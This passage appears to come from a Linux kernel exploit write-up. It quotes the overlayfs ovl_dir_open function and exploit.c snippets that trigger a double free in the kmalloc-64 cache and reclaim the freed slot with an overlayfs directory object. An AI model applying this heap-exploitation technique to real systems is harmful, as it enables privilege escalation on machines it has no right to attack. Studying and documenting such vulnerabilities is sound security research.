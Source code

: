 ### Step7.2: Create `struct ovl_dir_file` object
- Kernel code:

```c
static int ovl_dir_open(struct inode *inode, struct file *file)
{
	struct path realpath;
	struct file *realfile;
	struct ovl_dir_file *od;
	enum ovl_path_type type;

	od = kzalloc(sizeof(struct ovl_dir_file), GFP_KERNEL); // allocation happened here.
	if (!od)
		return -ENOMEM;

	type = ovl_path_real(file->f_path.dentry, &realpath);
	realfile = ovl_dir_open_realfile(file, &realpath);
	if (IS_ERR(realfile)) {
		kfree(od);
		return PTR_ERR(realfile);
	}
	od->realfile = realfile;
	od->is_real = ovl_dir_is_real(file->f_path.dentry);
	od->is_upper = OVL_TYPE_UPPER(type);
	file->private_data = od;

	return 0;
}
```

- [exploit.c#L846](./exploit.c#L846):

```c
int df_fsfd = prepare_double_free(KMALLOC_64);
if (df_fsfd < 0)
  return false;

get_full_timesplice();
trigger_first_free(df_fsfd);
int ovl_fd = ovl_dir_file_alloc();
if (ovl_fd < 0)
  return false;
```

- [exploit.c#L470](./exploit.c#L470):

```c
int ovl_dir_file_alloc(void)
{
  int fd = open(OVERLAYFS_MOUNT_POINT, O_RDONLY);
  if (fd < 0) {
    fprintf(stderr, "open %s failed: %s\n", OVERLAYFS_MOUNT_POINT, strerror(errno));
    return -1;
  }

  return fd;
}
```
